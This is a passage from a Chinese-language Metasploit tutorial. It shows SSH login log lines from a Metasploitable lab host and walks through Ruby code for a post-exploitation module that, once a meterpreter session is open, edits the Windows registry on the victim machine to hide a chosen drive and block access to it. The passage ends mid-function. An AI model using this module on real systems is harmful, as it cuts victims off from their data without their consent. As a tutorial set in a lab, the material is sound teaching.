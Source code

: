 ```
Oct 19 17:19:15 metasploitable sshd[5475]: Accepted password for msfadmin from 172.16.56.1 port 49639 ssh2
Oct 19 17:19:15 metasploitable sshd[5478]: pam_unix(sshd:session): session opened for user msfadmin by (uid=0)
```

### 编写让硬盘失效的后渗透模块

这个模块的功能是在已经获得目标机器系统级权限的meterpreter的前提下，将目标机器某硬盘限制访问并从我的电脑界面隐藏起来。

这算是一个比较简单的模块了：

```ruby
require 'rex'
require 'msf/core/post/windows/registry'

class MetasploitModule < Msf::Post
    include Msf::Post::Windows::Registry
    def initialize
        super(
            'Name' => 'Driver Disabler',
            # %q is the same as single quote
            'Description' => %q{
                This modules hides and restrict access to a drive.
            },
            'Author' => 'Rambo',
            'License' => 'MSF_LICENSE'
        )
        register_options(
            [
                # OptString.new(required, description)
                OptString.new('DriveName', [ true, 'Please SET the drive letter' ])
            ], self.class
        )
    end
```

前面这部分没什么说的，需要注意的就是添加了一个驱动器名的选项。

后面这部分其实就是借助Meterpreter实现对目标机器注册表的读写，我们看一下怎么写就好。这还是很有用处的，毕竟是对注册表操作，未来如果希望达到其他目的，套路都是一样的：修改注册表键值：

```ruby
    def run
        drive_int = drive_string(datastore['DriveName'])
        key1 = "HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer"

        exists = meterpreter_registry_key_exist?(key1)
        if not exists
            print_error("Key doesn't exist, creating key!")
            registry_createkey(key1)
            print_good("Hiding drive")
            meterpreter_registry_setvaldata(key1, 'NoDrives', drive_int.to_s, 'REG_DWORD', REGISTRY_VIEW_64_BIT)
            print_good("Restricting access to the drive")
            meterpreter_registry_setvaldata(key1, 'NoViewOnDrive', drive_int.to_s, 'REG_DWORD', REGISTRY_VIEW_64_BIT)
        else
            print_good("Key exists, skipping and creating values.")
            print_good("Hiding drive")
            meterpreter_registry_setvaldata(key1, 'NoDrives', drive_int.to_s, 'REG_DWORD', REGISTRY_VIEW_64_BIT)
            print_good("Restricting access to the drive")
            meterpreter_registry_setvaldata(key1, 'NoViewOnDrive', drive_int.to_s, 'REG_DWORD', REGISTRY_VIEW_64_BIT)
        end
        print_good("#{datastore['DriveName']} Drive disabled")
```
